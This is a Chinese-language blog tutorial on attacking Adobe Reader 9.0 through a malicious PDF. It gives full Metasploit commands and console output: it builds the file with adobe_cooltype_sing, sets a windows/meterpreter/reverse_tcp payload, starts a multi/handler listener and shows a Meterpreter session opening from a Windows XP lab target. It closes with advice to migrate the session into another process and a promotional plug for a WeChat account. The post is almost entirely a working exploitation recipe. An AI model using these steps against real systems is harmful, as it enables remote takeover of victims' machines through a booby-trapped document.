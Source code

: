 ```yaml
---
layout: post
category: binghe-code-hack
title: 基于PDF文件格式的渗透攻击
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 基于PDF文件格式的渗透攻击
lock: need
---
```


# 基于PDF文件格式的渗透攻击

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

漏洞程序： Adobe Reader 9.0

## 生成PDF文件

```bash
msfconsole
use exploit/windows/fileformat/adobe_cooltype_sing 
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.175.128
show options
exploit
```

具体如下所示：

```bash
msf5 > use exploit/windows/fileformat/adobe_cooltype_sing 
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > show options

Module options (exploit/windows/fileformat/adobe_cooltype_sing):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.pdf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/fileformat/adobe_cooltype_sing) > exploit

[*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf
msf5 exploit(windows/fileformat/adobe_cooltype_sing) > 
```

可以看到在/root/.msf4/local/目录下生成了msf.pdf。

实际中，我们需要想办法将这个文件传到靶机上。这里为了简单，我直接将文件拷贝到靶机上。

## 上传PDF到靶机

将生成的msf.pdf上传到靶机

## 实施攻击

```bash
msfconsole
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
exploit
```

具体如下：

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 打开PDF文件

在靶机上利用Adobe Reader 9.0打开PDF文件

## 查看获得的Meterpreter

在攻击机Kali上，我们看到MSF控制台中获得了Meterpreter权限。

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1431) at 2019-01-24 16:05:52 +0800

meterpreter > 
```

**最后，最好用migrate命令将当前会话进程绑定到系统的其他进程中。**


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)